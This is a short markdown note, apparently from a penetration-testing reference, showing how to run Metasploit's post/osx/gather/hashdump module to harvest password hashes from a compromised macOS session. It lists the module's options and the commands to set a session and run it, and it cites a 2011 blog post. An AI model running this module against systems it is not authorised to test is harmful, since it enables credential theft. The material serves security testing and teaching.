 # Hashdump

```
msf > use post/osx/gather/hashdump

msf post(osx/gather/hashdump) > options

Module options (post/osx/gather/hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   MATCHUSER                   no        Only attempt to grab hashes for users whose name matches this regex
   SESSION                     yes       The session to run this module on

msf post(osx/gather/hashdump) > set session <session_id>

msf post(osx/gather/hashdump) > run
```

---
## References

- [Metasploit Mac OSX Post Exploitation Enumeration and Hashdump](https://eromang.zataz.com/2011/02/23/metasploit-mac-os-x-post-exploitation-enumeration-and-hash-dump/)